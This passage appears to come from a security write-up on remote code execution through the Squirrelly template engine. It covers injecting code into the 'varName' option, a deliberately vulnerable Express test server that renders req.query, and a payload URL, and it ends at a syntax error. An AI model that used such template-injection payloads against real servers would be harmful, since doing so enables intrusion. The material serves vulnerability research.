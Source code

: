 ```javascript
// options.varName = 'console.log("x")'
with (console.log("x") || {}) {
    // ...
}
```

This should execute the `console.log("x")` statement and give us RCE.

## Testing

We can set up a simple server to test this out.

```javascript
const express = require("express")

const PORT = 3000

const app = express()
app.set("view engine", "squirrelly")

app.get("/", (req, res) => {
  res.render("asdf", req.query)
})

app.listen(3000, () => {
  console.log(`Server is running at port ${PORT}`)
})
```

Visiting the following URL to execute our payload:

```
http://localhost:3000?useWith=1&varName=console.log("x")
```

However, if we try to do this, we get the following error:

```
Squirrelly Error: Bad template syntax

Arg string terminates parameters early
======================================
var tR='';tR+='asdf\n';if(cb){cb(null,tR)} return tR
    at SqrlErr (/home/samuzora/test/node_modules/squirrelly/dist/squirrelly.cjs.js:138:15)
    at compile (/home/samuzora/test/node_modules/squirrelly/dist/squirrelly.cjs.js:881:19)
    at handleCache (/home/samuzora/test/node_modules/squirrelly/dist/squirrelly.cjs.js:1002:12)
    at tryHandleCache (/home/samuzora/test/node_modules/squirrelly/dist/squirrelly.cjs.js:1035:13)
    at View.renderFile [as engine] (/home/samuzora/test/node_modules/squirrelly/dist/squirrelly.cjs.js:1064:12)
    at View.render (/home/samuzora/test/node_modules/express/lib/view.js:135:8)
    at tryRender (/home/samuzora/test/node_modules/express/lib/application.js:657:10)
    at Function.render (/home/samuzora/test/node_modules/express/lib/application.js:609:3)
    at ServerResponse.render (/home/samuzora/test/node_modules/express/lib/response.js:1048:7)
    at /home/samuzora/test/index.js:9:7
```
